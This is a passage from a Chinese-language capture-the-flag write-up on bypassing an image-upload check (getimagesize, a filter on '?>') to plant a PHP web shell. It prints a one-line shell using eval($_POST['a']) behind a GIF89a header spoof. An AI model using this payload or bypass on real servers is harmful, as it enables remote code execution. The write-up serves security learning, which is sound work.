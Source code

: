 提示要求上传图片,那么如果要传一句话木马的话肯定得绕过图片检测

简单改文件扩展名不管用,应该是使用了`getimagesize`这样的函数对文件内容进行了检测

<img src="/images/buuctf-web/image-20221014210751046-166704781973431.png" alt="image-20221014210751046" style="zoom:67%;" />

另外,文件内容中包含`?>`这样的符号也会被检测出来

<img src="/images/buuctf-web/image-20221014211253339-166704781973430.png" alt="image-20221014211253339" style="zoom:67%;" />

因此在编写一句话木马时也需要做一些绕过措施

>补充知识点: **GIF89a头文件欺骗**
>
>假如某个文件的内容为:
>
>```html
>GIF89a
><script language="php">eval($_POST['a']);</script>
>```
>
>**后台在读取文件内容时会认为此文件为图片,这样能够骗过`getimagesize`的检测**

如此以来,搞定了文件内容,就可以看一看哪些文件扩展名能够上传成功了
